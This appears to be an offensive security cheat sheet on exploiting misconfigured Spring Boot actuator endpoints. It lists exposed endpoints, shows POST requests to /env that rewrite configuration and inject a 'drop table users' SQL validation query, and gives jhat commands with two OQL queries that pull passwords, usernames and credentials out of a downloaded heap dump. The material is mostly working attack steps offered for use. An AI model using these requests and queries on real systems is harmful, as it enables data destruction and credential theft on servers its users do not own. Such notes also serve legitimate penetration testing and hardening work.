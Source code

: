 


# Spring boot



Spring boot app can contain many vulnerabilities if the server is not well configured
This endpoints are vulnerable :

-   **/autoconfig**  - Displays an auto-configuration report showing all auto-configuration candidates and the reason why they 'were' or 'were not' applied.
-   **/beans**  - Displays a complete list of all the Spring beans in your application.
-   **/configprops**  - Displays a collated list of all @ConfigurationProperties.
-   **/dump**  - Performs a thread dump.
-   **/env**  - Exposes properties from Spring's ConfigurableEnvironment.
-   **/health**  - Shows application health information (a simple 'status' when accessed over an unauthenticated connection or full message details when authenticated).
-   **/info**  - Displays arbitrary application info.
-   **/metrics**  - Shows 'metrics' information for the current application.
-   **/mappings**  - Displays a collated list of all @RequestMapping paths.
-   **/shutdown**  - Allows the application to be gracefully shutdown (not enabled by default).
-   **/trace**  - Displays trace information (by default the last few HTTP requests)
-  **/heapdump** return .hprof file
-  **/actuators** 
- **/jolokia** 

## /env exploit

 - We can modify configprops properties via POST request

> POST /env HTTP/1.1
> properties=new_properties

 - Perform sql query
 
 > POST /env HTTP/1.1
> spring.datasource.tomcat.validationQuery=drop+table+users

## Analyze .hprof file

  

>  jhat -port 7401 -J-Xmx4G /tmp/file.hprof

Usefull OQL querys:

	select filter(map( map(filter(heap.classes(), function(it) { var interests = /login|password|username|database|creds|credential|p4ss|l0g1n|l0gin|us3r|admin|4dm1n/; for(field in it.fields) if(interests.test(it.fields[field].name.toLowerCase())) return  true; return  false; }), "heap.objects(it, true)"), function(it) { var res = ""; var interests = /login|password|username|database|creds|credential|p4ss|l0g1n|l0gin|us3r|admin|4dm1n/; while (it.hasMoreElements()) { it = it.nextElement(); for(field in it) { if(interests.test(field.toLowerCase())) { if(res !== '') res += ', '; res += field + ' : ' + (it[field] ? (it[field].value ? it[field].value.toString() : it[field].toString()) : it[field]); } } } return res; }), "it");

and

    select filter( map(filter(heap.classes(), "it.statics"), function(it) { var res = ''; var interests = /login|password|username|database|creds|credential|p4ss|l0g1n|l0gin|us3r|admin|4dm1n/; for (field in it.statics) { if(interests.test(field.toLowerCase())) { if(res !== '') res += ', '; res += field + ' : ' + it.statics[field].toString(); } } return res; } ), "it");

   
   

